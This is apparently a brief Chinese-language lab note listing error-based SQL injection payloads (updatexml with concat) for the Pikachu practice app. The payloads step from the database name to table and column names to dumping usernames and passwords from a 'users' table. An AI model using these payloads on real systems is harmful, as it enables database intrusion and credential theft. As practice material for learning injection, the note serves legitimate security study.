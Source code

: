 ```
库名
1 and updatexml(1,concat(0x7e,database()),0)
```

![image-20220206213130375](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119535.png)

```
爆表
1 and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema="pikachu"),0x7e),0)
1 and updatexml(1,concat(0x7e,substr((select group_concat(table_name)from information_schema.tables where table_schema="pikachu"),32),0x7e),0)
```

```
爆字段
1 and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name="users"),0x7e),0)
1 and updatexml(1,concat(0x7e,substr((select group_concat(column_name)from information_schema.columns where table_name="users"),32),0x7e),0)
```

```
爆内容
1 and updatexml(1,concat(0x7e,(select group_concat(username,": ",password) from users),0x7e),0)
1 and updatexml(1,concat(0x7e,substr((select group_concat(username,": ",password) from users),32),0x7e),0)
```

![image-20220206213548868](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119356.png)
